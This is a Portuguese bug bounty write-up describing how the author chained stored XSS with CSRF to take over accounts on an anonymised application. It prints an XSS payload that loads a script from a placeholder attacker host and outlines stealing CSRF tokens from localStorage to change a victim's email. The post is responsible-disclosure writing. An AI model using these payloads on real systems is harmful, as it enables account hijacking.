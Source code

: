 ```yaml
---
layout: post
title:  "Bug Bounty 01 - Account Takeover via CSRF + XSS Stored"
date:   2019-06-03 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Fala galera, neste post irei falar sobre uma vulnerabilidade que encontrei em um programa na plataforma <a href="https://bugcrowd.com" target="_blank">Bugcrowd</a>. A falha já foi corrigida mais infelizmente o vendor não me autorizou a fazer o disclosure, então iremos chamar o site de domain.com :)
</p>

<p align="justify">
No vendor, havia uma aplicação que permite você possa criar uma instância e adicionar vários tipos de funcionalidades, como alertas, serviços, usuários, times etc.
<br>
Ao criar um serviço, é necessário que você aloque um time para que eles fiquem encarregados de cuidar deste serviço. Dentro de um serviço, era possível adicionar ações customizadas para que cada usuário fosse capaz de executar ao realizar determinada tarefa.
</p>

<p align="justify">
Nessas ações, verifiquei que ao executá-la um pop-up era aberto com o nome da ação executada, ou seja, o nome da ação era refletido nesse pop-up.
<br>
Decidi então adicionar uma tag HTML e um evento JS simples, inseri <code>&lt;img src="x" onerror="alert(1)"/&gt;</code>, e ao clicar na ação maliciosa, o nome foi refletido novamente, sem nenhum tipo de filtro:
<br>
<img src="/images/bug_bounty/bb01/bb01-00.png"/>
<br>
<br>
e o alerta apareceu :) (IEEEERRRRRRRRR)
<br>
<img src="/images/bug_bounty/bb01/bb01-01.png"/>
<br>
<br>
Bom, neste ponto, eu já tinha um XSS Stored. Dei uma olhada de como funcionava a aplicação, e notei que havia como um usuário fazer a troca do email, então tive uma sacada... eu poderia utilizar de um CSRF junto com o XSS para realizar o Account Takeover.
</p>

<p align="justify">
Basicamente, o CSRF consistia em uma request POST simples com o <i>ID do usuário</i> e o <i>CSRF Token</i> para o endpoint <code>/user/changeUsername</code> que realizava a troca do email, decidi criar um arquivo javascript com o exploit (ele está disponível no meu github, vou deixar o link no final do report :) ) para que não ficasse muito código dentro do campo da ação.
<br>
<br>
Utilizei o seguinte código para carregar o exploit quando o usuário executar a ação maliciosa dentro do serviço:
<br>
<code>&lt;img src="x" onerror="var script = document.createElement('script'); script.src = 'IP_SERVIDOR/poc.js'; document.getElementsByTagName('head')[0].appendChild(script);"/&gt;</code> 
<br>
<br>
<img src="/images/bug_bounty/bb01/bb01-02.png">
<br>
<br>
As ações disponíveis para os usuários ficariam dessa forma:
<br>
<img src="/images/bug_bounty/bb01/bb01-03.png">
<br>
<br>
Com isso, ao executar a ação maliciosa no serviço, o pop-up seria mostrado e o código executado.
</p>

<p align="justify">
Mas.... Para realizar a requisição, era necessário que fosse enviado junto da request, o token CSRF e o ID do usuário. Depois de fuçar um pouco a aplicação, notei que eles estavam sendo armazenados no localStorage (this is very good :) ), então tive apenas que capturar eles via JS e enviá-los juntos da requisição POST.
<br>
<img src="/images/bug_bounty/bb01/bb01-08.png"/>
</p>

<p align="justify">
Depois de realizar todo o processo, era necessário apenas adicionar as vítimas ao time, e atribuir um serviço com uma ação maliciosa a esse time, vale lembrar que não era necessário que as vítimas tivessem contas já criadas, pois o sistema verificava e caso não houvesse, era criado uma nova conta.
<br>
</p>

<p align="justify">
Como PoC, irei colocar alguns prints tirados do vídeo, então vamos lá :)
<br>
<br>
Primeiramente, o email da vítima permanece normalmente:
<br>
<img src="/images/bug_bounty/bb01/bb01-04.png">
<br>
<br>
Quando a vítima entrasse no seriço malicioso e fosse realizar alguma ação, esta seria a visão dele:
<br>
<img src="/images/bug_bounty/bb01/bb01-03.png">
<br>
<br>
Ao clicar na última ação, o pop-up era mostrado:
<br>
<img src="/images/bug_bounty/bb01/bb01-00.png">
<br>
<br>
E em background a ação da troca de email era realizada:
<br>
<img src="/images/bug_bounty/bb01/bb01-05.png">
<br>
<br>
Como resultado, o email da vítima foi trocado:
<br>
<img src="/images/bug_bounty/bb01/bb01-06.png">
<br>
<br>
Um link de confirmação foi enviado para o email do atacante, e ao confirmar o novo email, a conta da vítima teria o seu email trocado:
<br>
<img src="/images/bug_bounty/bb01/bb01-07.png">
<br>
<br>
Infelizmente, não posso divulgar o vídeo da PoC, pois como foi dito no início, o vendor não autorizou que fosse divulgado a vulnerabilidade e tentei ao máximo deixar o mesmo mais anônimo possível :).
</p>

<p align="justify">
Como prometido, o exploit pode ser encontrado neste link: <a href="https://github.com/vitor-fernandes/exploits/blob/master/poc.js" target="_blank" style="color: blue"><b>Exploit</b></a> 
</p>
